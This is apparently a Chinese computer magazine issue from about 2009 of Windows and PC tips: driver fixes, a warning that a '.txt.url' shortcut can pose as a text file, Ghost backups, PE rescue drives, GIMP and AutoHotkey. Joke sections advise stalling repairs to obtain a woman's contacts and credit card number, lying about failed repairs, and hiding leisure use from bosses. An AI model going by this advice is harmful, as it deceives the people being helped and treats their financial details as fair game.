进入安全模式，右击桌面“我的电脑”选择“属性→硬件→设备管理器”，右击声卡选择“属性→驱动程序→驱动程序详细信息”，列出该设备的所有驱动程序文件，将其禁用，然后按照路径将文件全部删除，可以按照此顺序查找删除：c:\windows\inf→c:\drivers→c:\windows\DRIVERS。删除1以后，如果还是不行再删除2，3目录里的文件。
好了，接着再安装新的驱动程序，看看声音是不是回归了？
(江苏/古文祥)

## 记事本也能挂马吗？

“妈妈，马马是什么？”
“孩子，马马就是电脑里经常出现的木马呀，坏蛋最爱使用啦。”
炎热的夏天到了，心情比较浮躁，做事也没有那么细心了，这个时候不要大意了，否则，你就很有可能中招马马！不信就请看下文。

### 小测试

打开一个空白记事本，输入以下代码，分别保存成为“介绍.txt”和“介绍.txt.url”两个文件。

```
[default]
[internetshortcut]
url=http://cfan.com.cn
iconfile=c:\windows\system32\shell32.dll
iconindex=70
```

表面上看，两个文件是没有区别的。再来分别看下这两个“记事本”的属性，“介绍.txt.url”文件已经是一个网页的快捷方式了，其地址指向http://cfan.com.cn，而且无法恢复成记事本再次编辑和修改了。如果这个地址是个挂马网页的，那岂不是中招了？

### 缘由何在？

怎么会这样呢？因为我用超级兔子去掉了快捷方式小箭头，造成了这个安全隐患的存在。这样，除了在“平铺”和“详细信息”查看方式下能发现外，“缩略图”、“图标”和“列表”查看方式就无法判别文件，究竟是快捷方式还是普通文件了！
由此，建议朋友们在个性设置里最好不要去掉快捷方式的小箭头，以免不幸中招哦！没有去掉小箭头的朋友，当你下载某个资源后要查看其介绍时，也要留意，小心其中有诈哟！
(文/陈晨)

## 打印照片，你别玩自动旋转

在Vista里，“图片与传真查看器”已经被“Windows图片库”取代。而在Vista系统下，电脑接收的传真是以TIF图片形式保存的。用“图片库”打印传真件时，会自动将纵向A4纸转为横向的A4纸，但文字并没有旋转，因此被整个图像被拉宽，很难看。笔者根据自己的经历找到了几种解决方法，这几种方法同样适用于打印其他图片格式。

适用机型：所有预装Vista机型
方法1：巧设置。单击“开始”菜单，找到并打开Windows照片库，选择“文件→选项→导入”，然后将“导入时旋转图片”前的勾选项去掉即可。
然后单击选中传真件，然后选择Windows照片库对话框中的“打印”选项，在打开的打印图片对话框中，将下侧的“适应边框打印”选项前的勾选项去掉即可。

方法2：换载体。右击传真件，选择“打开方式”，选择Microsoft Office Picture Manager（微软Office图片管理器）方式打开，然后再打印即可。

小知识：
TIF是一种比较灵活的图像格式，全称是Tagged Image File Format，具有图形格式复杂、存贮信息多的特点，文件扩展名为TIF或TIFF。支持多种压缩方式。
(文/潘磊)

## 文件扩展名，收放自如一键搞定！

系统默认情况下并不显示文件扩展名，也不显示系统文件，要想修改文件的扩展名，通常情况下需要先打开文件夹选项设置窗口，再设置显示文件扩展名。同理，要想查看系统文件，也需要进行类似的设置。如果只是偶尔需要查看文件扩展名或是查看系统隐藏文件倒无所谓，如果频繁地这样设置，显得很麻烦。其实，你可以让这个工作来得更简单。

先从http://www.sogho.cn/attachment.asp?FileID=1527下载这款小工具，下载解压后直接运行，系统会弹出是否安装右键扩展的对话框，直接选择“是”即可。现在，要想显示或是隐藏文件扩展名或是系统文件，只要直接在打开的文件夹中空白处右击鼠标，在弹出的快捷菜单中将会看到相应的选项，选中即可隐藏或是显示文件扩展名及系统文件了。

如果不想使用此功能，只要再次运行上面下载的程序，运行后系统会提示是否卸载，直接同意卸载即可。

(文/daigua)

## 保护视力，智能调整屏幕色温

现在的显示器都提供了色温调节功能，可以根据自己的喜好来调节色温。白天光线较强，环境色温较高，如果显示器的色温过低，就会感觉太暗，将眼睛与显示器的距离拉近才能看清楚；而夜晚色温下降，如果显示器的色温调得过高，就会太刺眼。由于显示器不具备智能调节色温的功能，很多懂行的朋友一般都将色温调节到一个最佳临界点（例如调为6500K、7000K这样）。有没有智能一些的方法呢？

从http://stereopsis.com/flux/下载适合Windows系统运行的程序，下载后直接安装到系统中。

运行F.lux，它会自动检测当前地理位置及当前的时间，然后给出一个科学的色温值。在亚洲的会自动推荐偏高色温，欧美的则会偏低一些。当然，也可以手工自定义色温，双击托盘区中的程序图标，在打开的窗口中直接拖动左右两个球状按钮就可以调整白天及夜晚环境下的色温值。

在运行过程中出现时差错误而导致色温调节不准确，也可以手工指定自己的地理位置，单击Change(更改)→Locate(定位)，在打开的网页中的地图搜索框中输入自己的位置（例如Beijing China）并回车，稍后就会得到一个精确的位置，直接复制该位置数据并粘贴到之前打开的小窗口中，单击OK按钮即可。

> 小知识：戏说色温
当某物体燃烧之后，火焰首先是红色的，温度升高然后变成橙黄色，之后是白色，最后蓝色出现了，这就是色温。据不可靠消息，亚洲人对色温高的颜色有偏好，颜色偏冷色调，也就是偏蓝，色温调节一般设置为9300K；欧美人对于低色温有偏好，一般设为6500K，屏幕偏黄。

(文/daigua)

## 人老窗不老，8旬XP修炼花哨窗口

按照年龄计算的话，8岁对于一个操作系统已算高龄，XP就是如此。即将降生的Windows 7带来耳目一新的美观界面，最厉害的当属窗口操作：鼠标拖动瞬间实现最大化、最小化、半开最大化等等，还不算Aero Peak之类的花哨功能。如此方便的窗口操作，让XP羡慕不已，年事已高的他还不想退出历史舞台，引用他自己的话说：“老朽还等着看2014年的世界杯呢！”瞧这志在必得的气势！这不，他已经开始修炼自己的窗口。

## 老胳膊老腿，照样瞬间多开

利用资源管理器可以方便地查找计算机中的资源，然而如果打算同时观看两个（或多个）不同文件夹下的内容时，操作比较烦琐。利用下述操作，可方便地在资源管理器中同时开启多个目的窗口。

第一步：在“开始菜单→运行”中输入regedit回车打开注册表编辑器，展开分支[HKEY-LOCAL-MACHINE\SOFTWARE\CLASSES\Directory\shell]，在Shell下创建NewWindows主键，将右边窗口中的“默认”值改为“在新窗口打开”（也可输入其他文字），在NewWindows下创建主键command，把值改为explorer.exe %1。

第二步：现在，在资源管理器中右击目的文件夹时，快捷菜单中就会出现“在新窗口打开”命令，单击该命令可在新窗口中打开目的文件夹。

第三步：查找多个不同文件夹下的内容时，用鼠标右键单击任务栏空白处，选择层叠、横向或纵向排列窗口然后适当调整，就可快速地查看多个文件夹中的信息。

## 买双加速靴，极速到达最爱窗口

别看系统中存在着诸多的文件夹，但常用的无非就是那么几个，比如命令提示符，或者存有工作文档的文件夹，也可能是某个图片文件夹等等，每次打开的话，要好几次双击才行，有没有瞬间到达的方法？

从http://work.newhua.com/cfan/200914/folder.rar下载FolderMenu并解压。双击FolderMenu.exe打开程序，按下Win+W时可见软件默认菜单包括了一些最基本的常用程序和文件夹，想把菜单中没有的文件夹或应用程序添加进去，只需打开软件的“选项”在“我的最爱”中，把程序直接拖入列表就可以了。通过它的上下按钮可将常用的程序置顶，如常用到命令提示符窗口，在“我的最爱”打开菜单选定Command Prompt Here，然后按“↑”按钮，就能将它置顶。

## 超神老花镜，精准定位外加记忆

对宽屏和多显示器用户来说，常希望同时查看多个窗口，比如一边写博，一边看电视，一边看股票，在不同窗口整理文件等，手动调整窗口非常麻烦，GridMove使用简单的拖拽，可快速定位窗口和改变窗口大小。

从http://jgpaiva.donationcoders.com/CS/GridMove/GridMoveSetup.exe下载安装后，右击托盘上的软件图标，在Templates中有多款网格可以选择，选定后在屏幕的左上角按住鼠标左键不放，这时就会让你设置分屏方案，把窗口拖动到某格子上，会出现一个灰黄色的方块，松开鼠标之后，就可将窗口调整到自己想要的格子上面去。同样方法，可将多个窗口调整到指定位置上。

### 小提示：

也可用快捷键来快速定位窗口。默认快捷键是Win+G，可以在Hotkeys→Command Hotkey中修改快捷键，#代表Windows键，！代表Alt，^代表Ctrl，+代表Shift。

(文/航瑞)

## 告别N次无聊操作，一键恢复哥俩都好

万众期待的Windows 7尚未正式发布，存在一些小BUG、汉化问题以及软件兼容问题。大家通常让XP+Windows 7哥俩或Vista+Windows 7哥俩组成双系统，来提前“品尝”Windows 7的味道。系统最好要备份一下，与单系统不一样，双系统需要备份两份，还原双份。

无论是使用Ghost备份双系统，还是由于感染了病毒等原因，必须同时恢复备份的双系统；这都得单击鼠标N次才能搞定。那么，能不能实现一键备份及恢复双系统呢？下面，笔者就以XP+Windows 7兄弟为例（XP安装在C盘，Windows 7安装在D盘），给大家介绍一下如何来实现一键恢复双系统，让他们哥俩都好。

## 两步就搞定！

第一步：先登录Windows 7，接着从http://www.vista123.com/vistaghost/下载“Vista一键还原”安装并运行之，再单击窗口中的“确定”按钮，这时就会弹出一个询问是否立刻重启系统的对话框，然后单击“否”并打开“Vista一键还原”的安装目录，在该目录下大家会发现新生成了两个批处理文件，文件名分别为b.bat和r.bat。

### 小提示：
★将“Vista一键还原”安装在Windows 7下，因为“Vista一键还原”在XP中无法正常使用。
★批处理文件b.bat和r.bat的作用分别是备份、恢复操作系统。

第二步：用记事本打开批处理文件b.bat，将所有内容替换为图1的A处内容，保存；再执行对批处理文件r.bat的修改工作，修改后的内容如图1B处所示。



批处理文件b.bat的含义是：分别将C盘、D盘所安装的系统备份为WinXP.gho和Win7.gho，保存到G:\vbackup目录下并重启（第二行参数-rb的作用）；

与之类似，批处理文件r.bat则是将备份的WinXP.gho、Win7.gho分别恢复到C盘和D盘并重启。

## 那我该怎么用呢？

完成上述操作后，重启系统，就会发现原来的双启动菜单下边多出一个菜单选项：Vista一键还原。选中此菜单并单击回车键，稍等片刻就会看到图2所示的菜单窗口。在图2所示的窗口中，单击菜单“自动备份Vista”，就会对操作系统XP和Windows 7进行Ghost备份；同样的道理，单击菜单“自动还原Vista”，则会将备份的WinXP.gho、Win7.gho分别恢复到C盘和D盘了。


(山东/钟倩)

## 一个电话引发的特训：1月8技速成热心达人

1986年的冬天，小齐在一个普通的农家院降生了，因为小齐的爸爸是一村之长，各路亲戚、熟识乡亲都争先恐后跑过来观看这个新生儿。23年过去了，在北京上了四年大学的小齐毕业，还有一个月的时间就要回到老家，这时候，他接到了爸爸的电话。今年“电脑下乡”活动火热一团，村里很多乡亲都借助这个机会买了电脑，隔壁种粮大户李大伯、村东头的王婶子家里都买了电脑，不过他们的文化水平不高，在平时使用中总是会碰到不少问题。爸爸让小齐回去之后替李大伯等乡亲解决各种电脑问题，作为一名在校的大学生，小齐决心在暑假为自己的乡亲们做些贡献，但距离回家只剩下一个月了，30天的时间，如何练就一位通晓各路技巧的热心达人呢？且看CFan为小齐制订的“IT精英特训计划”。

### 号外！

特训开始之前，请准备一个闪盘，容量最少为2GB，代号“达人专用闪盘”。强力推荐金士顿DataTraveler系列4GB闪盘，实乃外出携带、达人专用之最佳闪盘。

### 额外赠送超值“冷技”！

作为一名热心达人，学习雷锋、不求回报那是必须具备的基本素质，但如果你符合以下其中一条的“前提”，那就学文中额外赠送的“冷技”吧！

- ★借助电脑泡MM，秘技一箩筐呦！
前提：光棍一条
- ★修不好电脑不怕糗，最佳借口可以有！
前提：电脑水平尚未炉火纯青
- ★只有谢谢，没有请客，怎么办？
前提：比柳絮飞还爱蹭饭

## 第一阶段：7.1～7.10

### 关键词：自动
特训目标：农村中的上网环境多为ADSL拨号，从容应对各种ADSL故障的出现。
适合帮助人群：家中安装了宽带的用户。

### 热技1：不怕故障，助人遨游

一般情况下，ADSL拨号上网出现故障的原因有很多，有可能是因为线路、接口等物理硬件方面的原因，也可能是拨号设置、系统故障等软性原因。成为一名达人之前，你要熟悉ADSL出现问题的两大代表症状。

- 症状一：无法拨号，一般出现的是“超时错误”。此时Modem的LINK信号灯如果一直处于闪烁状态，说明物理线路有问题了，这时候打电话试一下，如果能通的话，证明是分离器或者网线存在问题，更换即可。可先按照电话线到电脑的顺序排查是否是由于连接问题：电话线、分离器、Modem、路由器、电脑。Modem上的LAN信号灯必须是处于长亮状态，才正常。
- 症状二：正常上网，但总是掉线。如果不是线路上的故障，瞬间的大下载流量也会让ADSL掉线，但比较常见的是一些木马会将关联ADSL的系统服务停掉，导致无法拨号。单击“开始→控制面板→管理工具→服务”选项，右击“Remote Access Auto Connection Manager”选项，选择“属性”，将其启用即可。而蠕虫病毒对Modem的不停袭击，会造成频繁掉线，此时需用杀毒软件查杀全盘。
另外，一般来说，Modem、电话机和电话线的连接需要一个分离器，注意Modem要与电话主机连在一起，而不是与电话分机的线连在一起，不然容易造成接打电话就掉线的问题。Modem和路由器要摆放在通风位置，使用时间长了之后过热的话，也会导致掉线，静电也可能会导致掉线。

### 热技2：避重就轻，自动聊天

QQ语音聊天默认需要点击“接受”才能连接，老人家面对窗口乱七八糟的按钮，总是不知如何是好。为方便使用，可借助AutoHotkey（下载地址：http://www.onlinedown.net/soft/39219.htm）录制自动应答脚本。

- 第一步：保证父母和他儿子（或女儿）的QQ已经互加为好友，同时在李大伯QQ中将其儿子QQ备注名称设置为“儿子”。
- 第二步：安装AutoHotkey后，运行AutoScriptWriter（自动脚本写入），把程序窗口移到桌面左上角。接着启动儿子的QQ，向李大伯发起语音会话，单击AutoScriptWriter→Arecode开始录制，点击QQ语音邀请窗口的“接受”，成功连接后，再点击AutoScriptWriter窗口的STOP停止录制。
- 第三步：返回AutoScriptWriter窗口点击SAVE，将录制的脚本保存为aa.ahk，放置在“C:\Documents and Settings\Administrator\开始菜单\程序\启动”目录下，这样以后只要儿子的QQ发出语音邀请，父亲的QQ就会自动接受开始对话。
同样，记住将AutoHotKey放入“达人专用闪盘”。

### 额外赠送冷技1：用电脑泡MM

首先声明，这是送给光棍达人的特训秘技，有伴儿的兄弟请绕行。

- 1.给MM修理电脑的时候，要注意拖延时间的技巧，比如先使用解决不了问题的方法，这样才能得到更多接触、聊天的时间。
- 2.去之前带上点儿小礼物，比如手感舒适外观可爱的鼠标垫，适时地送上。
- 3.终极秘技！这次故意修不好，要来MM各种联系方式（手机号、QQ号、信用卡号……），下次接着修、接着磨蹭。

## 第二阶段：7.11～7.20

### 关键词：筹备
特训目标：学会了自动操作，在“达人专用闪盘”中存放两个“重要”文件，第一阶段圆满过去。第二阶段，开始打造一个功能全面的系统维护闪盘，以便电脑在碰到故障后，就高枕无忧了！
适合帮助人群：所有。

### 热技3：打造功能强大PE维护闪盘

由于PE功能强大，使用闪盘来打造PE系统维护盘是最好的方法。PE自然首选老毛桃PE。下载得到的是一个GHO镜像文件，在XP系统中启动GHOST32，使用“分区从镜像”功能，把下载到的镜像恢复到闪盘即可。

### 热技4：PE系统上网下载

这个老毛桃PE的使用和XP几乎一样，而且最好用的就是可以在PE中上网，这样达人们在维护系统的时候，缺少什么软件就可以直接下载使用。不过，这首先需要在PE中添加网卡驱动，才能实现PE系统内上网下载。

- 第一步：到http://www.onlinedown.net/soft/3450.htm下载“驱动精灵”，运行程序后按提示将当前系统的网卡驱动备份到d:\net。
- 第二步：到http://work.newhua.com/cfan/200913/mkcab.rar下载解压得到mkcab.exe，将它放置在d:\，运行mkcab.exe，按提示选择1，选择压缩d:\net所有文件为DRIVERS_NET.CAB文件。
- 第三步：打开“U盘\外置程序\PE_OUTERPART”目录，将上述生成的DRIVERS_NET.CAB替换其中的同名文件。同理，可以把本机所有驱动压缩成相应的CAB压缩包，替换外置程序中的对应文件，这样就可以在PE听歌、看电影了。
- 第四步：重启系统进入BIOS将U盘设置为第一启动，启动到PE系统后运行桌面的“启动网络支持”组件，这样系统会自动安装网卡驱动，打开设备管理器，展开“network adapters”即可看到安装的网卡。
- 第五步：系统会自动在桌面生成宽带连接，只要按提示输入上网账号和密码即可上网，以后如果在维护系统的时候缺少什么软件，只要打开IE上网搜索下载即可。

### 小提示：
PE毕竟是精简系统，如果下载的软件运行时提示缺少XX.dll文件，只要到c:\windows\system32复制缺少的DLL文件到软件安装目录即可。

### 额外赠送冷技2：水平不够的绝佳理由

- 1.首先声明，学会此秘技的前提是你的智商够高、反应够快，记住：随机应变，是这条秘技的精华。
- 2.使用闪盘、光盘处理各种系统问题时，由于是硬件，可以说成是“闪盘有坏块儿、光盘有坏道”，以此类推。
- 3.软件问题上，“共享版的软件不具备此功能”，“杀毒软件被破坏无法查杀病毒”，“系统不是正版无法XXXX”……只有做不到，没有编不到！

## 第三阶段：7.21～7.30

### 关键词：熟练
特训目标：熟练使用“达人专用闪盘”，从容应对各种问题。
适合帮助人群：所有。

### 热技5：实际使用教程

本身老毛桃PE就内置很多系统维护软件，再加上可以上网下载软件，利用这个维护盘几乎可以解决平时遇到所有问题。比如，即使做好前面系统备份和一键还原，但是如果硬盘的引导程序遭到破坏，使用Ghost恢复也无法解决故障，此时就可以使用上述U盘启动到PE进行修复。

启动到PE桌面后，单击“开始→程序→磁盘光盘工具\PTDD磁盘分区表医生”，启动PTDD后在分区列表选中系统分区，单击菜单栏的“操作→修复引导”，这样系统会自动修复引导故障，重启后就可以解决故障了。

当然了，这个PE的功能远远不止这些，它还可以恢复数据、杀毒、安装系统、恢复系统登录密码等，具体使用和在XP下并没有多大的区别。

### 网络大补贴：

### 达人闪盘必备的其他修理工具

- 系统备份还原：Ghost, http://www.onlinedown.net/soft/33492.htm。
- 分区转换：Pqmagic, http://www.newhua.com/soft/19426.htm; Vista下，用Acronis Disk Director Suite, http://down.vista123.com/AcronisDiskDirector10.rar。
- 修复分区：易我分区表医生3.0, http://www.newhua.com/soft/44858.htm。
- 优化及简单故障排除、清理垃圾：Windows优化大师, http://www.newhua.com/soft/3829.htm; Vista下，可用Vista优化大师, http://www.newhua.com/soft/55934.htm。

### 额外赠送冷技3：做个能蹭饭的达人

- 1.首先声明：蹭饭不是目的，是为了心理上的些许安慰。
- 2.上午11点准时到达目标用户家里，修理时间超过40分钟；同理，下午5点多到达。
- 3.在快修好的时候，表达出口渴、肚饿的意思，让主人明白“得请客了”。

经过一个月的培训，小齐圆满毕业。
一个月后，小齐为乡亲们电脑解决了很多问题，而且让他们在以后的使用不再有后顾之忧。
又过了一个月，小齐启程到北京寻找工作，9月1日一大早，小齐就在乡亲们赞许声中踏上求职之路……
“感谢CCTV，感谢CFan”……
（福建/PD）

## 不务正业，另类方法快速整理磁盘碎片

电脑用久了，尤其是经常安装及删除程序、文件等，就会产生很多磁盘碎片，影响硬盘的读写速度以及程序加载和运行的速度。系统自带的磁盘碎片整理程序，其蜗牛般的整理速度却让你烦恼不堪。那么，有什么办法能让磁盘整理更快一些呢？借助常用的Ghost，让它不务正业一把，即可达到快速整理磁盘碎片的目的。let's go!

## 第一步：备份

运行Ghost，选择要进行磁盘整理的分区，选择卷标Windows XP的分区，然后点击OK，选择备份文件的存放路径：在filename栏中输入备份的文件名，然后点击save保存。弹出选择压缩比的对话框，选择Fast（快速），开始备份系统。

### 小知识：为什么闪盘不需要整理碎片
闪盘的存储原理和硬盘不同，使用时间长了也不会产生磁盘碎片。默认存在的一些碎片文件，是SOUND.000之类的文件夹，这些文件夹下一般是一些CHK文件。使用磁盘碎片整理程序会造成将丢失簇处理、合并，产生故障。

## 第二步：还原

完成后，再依次选择Local（本地）→Partition（位置）→From Image（从镜像导入）。
选择刚才备份的back.gho文件，然后弹出select source partition from image file（选择镜像文件），点击OK，选择要还原的分区，也就是刚才卷标为XP的分区，确认，执行还原任务。
还原完后重启计算机，打开“磁盘碎片整理程序”选择刚才还原的分区，单击“分析”按钮，看看是不是数据块全是连续的了？这个速度比传统的要快上千倍吧！

### 小结：
此方法的原理是：使用备份再还原，实现数据块恢复到初始时的连续状态，就好比桌上打乱的牌，我们直接划拉到一起重新洗牌，而不是一张一张地捡起。

### 网络大补贴：
除了Ghost，你还可以使用UltimateDefrag：
http://www.onlinedown.net/soft/53576.htm。体积小巧、使用简单、速度极快。
（山东/李庆达）

## 正点照片 Ubuntu下照样PS

前段时间的某个周日，吃完午饭正准备小憩一番，门铃响起。门洞里一瞧，邻居齐大妈。齐大妈是居委会主任，估计有什么上级指示需要传达吧。谁料，大妈给了我一个闪盘，说里面有张照片需要修修。看来我的电脑本领已经名扬“胡同”了啊。我说没问题，您立等可取！回到电脑前，才想起这几天在品尝Ubuntu系统，遭了，没有Photoshop，我拿什么修照片？无奈大话已出，GIMP在脑中的浮现，让我的难题得以解决。
GIMP（GNU Image Manipulation Program）是跨平台的图像处理程序，Ubuntu系统已经默认集成，点击“图像→GIMP图片编辑器”即可开启。打开GIMP，会发现布局和PhotoShop有些相似，但GIMP的设计更加适合宽屏显示器、双显示器。

### 小提示：
虽说GIMP是Linux平台下的PS利器，但它早已经有了同样免费的Windows版本，下载地址：
http://www.newhua.com/soft/25687.htm，需要安装GTK+环境包（下载地址：http://www.down.com.cn/software/opensource/4426.html）才能正常安装。

## 让照片正点儿

摆在眼前的这张照片，背景与人物的搭配不是很协调，仔细一看，歪了，怎么办呢？GIMP提供了倾斜图片的校正。
打开照片之后，点击“测量工具”或者“工具→测量”，然后在图片上景物本应该水平（或垂直）的方向拖动一条直线，这时候状态栏会显示倾斜的角度。点击“工具→变换工具→旋转”，在“角度”里填入“测量”得到的角度，点击“旋转”就可以了。可以根据效果反复进行尝试性地修改。

### 小提示：怎样消除红眼和青春痘？
- 用“选择工具”选择双眼，点击“滤镜→增强→去除红眼”，适当调整阈值，点击确定就可以了。
- 点击“工具→绘画工具→复原”，Ctrl+单击选定一个参考点，用鼠标在青春痘（斑点）处涂抹，就变成跟参考点一致的颜色了。

## 让曝光足点儿

倾斜过度解决之后，发现这张照片的最大缺陷：由于在夜景拍摄，存在严重曝光不足，看起来黑糊糊的。
点击“颜色→色阶”打开色阶对话框，可以看到，色阶主要集中在暗部区域，图像整体偏暗。只要适当向左拖动输入色阶的白色滑块，图像立即明亮了许多，原来黑糊糊看不清楚的物体也露出了真面目。调整合适后，确定就可以了。

如果你习惯了使用PhotoShop，不妨试试GIMPshop，它把GIMP的菜单结构重新组织，与PhotoShop基本相同，无需改变操作习惯，即可在Ubuntu下大胆PS！

### 小知识：聊聊色阶
色阶跟“色戒”没有任何关系，这里的“色”指的是颜色，色阶表示图像亮度强弱的指数标准，和颜色无关，表现了一幅图的明暗关系，最亮的只有白色，最不亮的只有黑色。
（文/洪东华）



## 挑战Refine！ 争当系统御用写手

阅读“系统栏目”好久了，你是不是已经厌倦了Refine这个家伙的写作手法和包装风格？开篇堆砌几句废话，然后顺延几个操作步骤，就组成了一篇处处一般的文章。那你还等什么，打开Word、打开EmEditor、打开截图工具SnagIt，将你独特的创意、点子、满腹的文采、技术，发给Refine，向这厮挑战！如果你通过本期和下期的两关，你今后将是系统栏目的御用作者了！

### 御用作者权利：

- * 告别投稿采用几率很低的尴尬，直接给小编“扔”稿子。
* 不时会有选题主动扔给你，让你来写，稿费多多。
* 选择进入各位CFan大编、小编的QQ、MSN好友名单。

Refine信誓旦旦地说：“登刊之后恐难有人敢来挑战”，冷笑一声，扬长而去……
看不下去了？xlt@cfan.com.cn在等待着你的挑战，记得标题注明：“挑战Refine第一关”。

## 本期公布，挑战Refine第一关：

将下面这个提纲很简练的选题，丰富一下，可以将内容细化，也可以围绕“扩展名”这个主题添加其他内容。字数控制在500字以内。
怪异影音图，别挡道。挑几种比较常见却又陌生的格式介绍，并介绍简易打开方式。
“某DLL文件损坏，无法安装”，如何解决？
假如你是公司的网管，有人过来问个扩展名是啥，你不知道的话岂不露怯？5秒钟确定扩展名。
图

## 高分问答

## 阿波罗11号究竟有没有登上月球？

答：这个话题最近在全世界被关注，主要疑点如下。

- 1. 录像资料中那面插在月球上的星条旗在迎风飘扬，而月球上根本不可能有风把旗子吹得飘起来；
- 2. 照片中宇航员身旁出现形状不规则，只有在多个光源下才可能出现的阴影，这在只有一个单光源—太阳的月球是不可能出现的；
- 3. 从录像片中看到宇航员在月球表面行走犹如在地面行走一样，实际上月球上的重力比地球上小得多，人在月球上每迈一步就相当于在地面上跨跃5至6米；
- 4. 登月仪器在“月球表面移动”时，从轮子底下弹出的小石块的落地速度也同地球上的速度一样，而在月球上这种速度应该比在地球上快6倍。

美国阿姆斯特朗航天航空博物馆工作人员、教育学专家安德烈娅·沃对戈尔多夫的论据进行了一一反驳，他表示旗子飘起来是因为在插旗时旗杆在宇航员手的触动下产生了弹性运动，而不规则阴影则是由月球上不规则的地势引起的。


## 简单代码 为剪贴板添加“内力”

小A在某站做编辑有一段时间了，由于是实习阶段，每天负责的工作比较单调：负责收集一些信息然后再粘贴到自己的网站上。剪贴板是他每天最常接触的对象。小A的工作效率并不高，原因在于：剪贴板功能较弱：存储单次复制的数据，不能及时清空剪贴板内容，无法实现数据置换功能等。像小A这样每天需要进行大量复制粘贴操作的人，该如何是好呢？

首先需要先下载AutoHotKey工具（下载地址：http://www.newhua.com/soft/39219.htm）并安装。
再到http://work.newhua.com/cfan/200912/ECB.rar下载解压得到Enclipbboard.ahk文件，双击该文件，AutoHotKey就会运行这个小程序，在系统任务栏可以看到。脚本文件运行后没有主窗口，驻留在系统托盘中。

以后可随时点击Ctrl+Alt+C键，将选择的数据添加到剪贴板原有数据的尾部。点击Ctrl+Alt+V键，将选中的数据和剪贴板中的数据实现互换操作。点击Ctrl+Alt+X键，可清空剪贴板的内容。右击该图标，点击pause Script项就能运行脚本文件。

## Just Do It

AutoHotkey能将AHK格式的脚本文件编译成EXE文件，便于用户携带和运行。点击“开始→程序→AutoHotkey→Convert .ahk to .exe”，打开脚本编译窗口。在Source（script file）→Browse中选中脚本文件。通过设置后，点击Convert按钮，就能将脚本编译成EXE文件了，从而脱离AutoHotkey设计环境而独立运行。具体怎么设置，呵呵，那就靠你自己了！
（文/花的神明）

## 不做倒霉熊，洒脱面对主管抛来的“霉”眼

‘玩物丧志’出自《尚书·周书》，告诫后人不要沉迷于所喜好的事物。这个没错，但张弛有度才能提高效率，上班时间适度地听听歌，聊个天可能有利于精神上的放松。但如果你的倒霉程度堪比倒霉熊兄弟，那劝你还是想个辙。老板键固然管用，但前提是你得确定自己有那种在危急时刻快速准确地按下组合键的能力。面对主管甚至老板轻轻走来的身影，面对他抛来的“霉”眼，你如何是好……

### 本文可以学到：

- 巧妙伪装，让老板不知你在听歌。
- 完美隐藏，说看不见你就真看不见。

### 大话老板键

老板键的英文名称是Boss key，多为Ctrl+某键的热键组合，用于快速隐藏游戏或其他无关工作程序，并让显示器呈现正常工作时的画面，借以骗过老板，为上班时间放松娱乐打个幌子。

### 忘记老板键的紧急措施

- 第一技：拔电源！适用程度：台式机永远适用，笔记本无用，不利因素：容易造成未完成工作的丢失，以及老板的极大怀疑。慎用。
- 第二技：挡屏幕！适用程度：台式机基本不适用，12寸及以下屏幕尺寸的笔记本适用。不利因素：容易让其他同事以为你在浏览不健康网页。使用前提：脑
- 第三技：转移注意力！适用程度：所有电脑均适用。使用方法：指着右上方，大叫“看，有灰机！”的同时关闭程序。后果：被众人群殴。

### 上策：巧伪装

这种方法主要适用音乐播放软件，达到“看羊头听狗肉”的目的。以“酷我音乐盒”为例进行说明，通过设置，能在听任一首歌时都显示其他画面。

第一步：运行酷我音乐盒，单击右上角的LRC按钮以关闭桌面歌词显示。

右键播放窗口，选择“背景设置→其他背景设置→背景→图片背景→浏览”，找到一张从TechNet中文网络广播的画面中截取的图片即可。这样，播放音乐时，显示的都是这张背景图片。

第二步：创建一个播放列表，歌曲名可这样排列：要听的流行歌曲与TechNet中文网络广播的音频文件相互间隔。这样，就能通过酷我音乐盒默认的快捷键“Ctrl+→”来随时跳转到下一首。

聊天逗闷子也是上班娱乐族的最爱，但无论是QQ，还是备受白领追捧的MSN，都受到了主管们的格外“关照”。别慌，咱伪装起来“明”着聊。

到http://down.tech.sina.com.cn/page/43288.html下载Just Chat小工具，打开之后，你会发现进入的是Word文档，难道下载错了？没有，这就是它的伪装之道。乍看一眼，绝对是在办公。当聊到一半发现主管走近电脑时，你可以立即按ESC键，让所有聊天记录变为预设的办公资料，以备突袭检查。QQ的伪装工具也是有的，名为“QQ伪装清洁器”（下载地址：http://www.piaodown.com/soft/24151.htm）。使用很简单，在“设置”中将“开启伪装”勾选即可。

除了听听歌、聊聊天，网络游戏（含网页游戏）也是上班娱乐族的最爱，来见识一下热门游戏自带的老板键吧！

| 游戏       | 快捷键   |
|------------|----------|
| QQ游戏     | Alt+Q    |
| 口袋西游   | Alt+F4   |
| 诛仙       | Shift+Q  |

### 下策：妙隐藏

很多操作是使用鼠标进行的，比如操作游戏时，老板突然光临，敲击键盘恐怕来不及。那就用鼠标来隐藏！

首先，下载名为BossComing的小软件（http://work.newhua.com/cfan/200913/BossComing.rar），解压后运行其中的BossComing，按Ctrl+Z调出设置面板。

设置窗口名为“Windows任务管理器 - 1”，不管名称还是外观都与系统的任务管理器类似，使软件本身具备伪装性。切换到“功能设置”选项卡之下，勾选“开启鼠标左键+右键都按下时隐藏桌面程序功能”，这样，只要同时按下鼠标左右键也可达到目的。

上面提到了音乐播放器的伪装，用BC也可以将酷我进行快速隐藏，PPLive也可以。

单击“增加热键”，将鼠标指针移到“热键值”后单击，再按键盘上的Ctrl+y，在“进程名”后手动输入KwMusic.exe（酷我音乐盒）。完成后按Ctrl+y，酷我音乐盒即可自动隐藏。

一个快捷键可对多个程序生效，在“进程名”后输入“PPLive.exe;KwMusic.exe”，则还可以对PPLive起作用。要注意的是，多个程序名之间必须输入一个小写的分号。

☆为方便管理，建议设置有一定记忆意义的快捷方式，比如本例中的Ctrl+y，y是“音乐”二字的拼音首字母。☆使用Ctrl+3，即可显示或隐藏QQ、MSN等聊天程序及QQ游戏。

## 排好队形不落伍，古老地盘全美化

未来是个玩透明的时代，你可不要落伍哦，Vista中打开窗口都会看到漂亮的透明特效，不过命令提示符窗口却没有，它的地盘依旧那么的“苍老丑陋”，这对于那些经常使用DOS命令的朋友来说，很不公平！系统自身没有提供这项功能，不如主动出击，弥补遗憾。

### 第一步：透明效应

从http://work.newhua.com/cfan/200913/glass.rar下载这款小工具，运行后再启动命令提示符窗口，久违的透明特效便能立即显现了。

### 第二步：内容活泼

命令提示符打开后，上方是微软生硬的版权信息，改成其他信息多好。

首先打开记事本，输入如下内容（括号内为解释的内容，不要输入）：

```
@ECHO OFF&TITLE=****（*输入自定义标题，标题栏内容*）
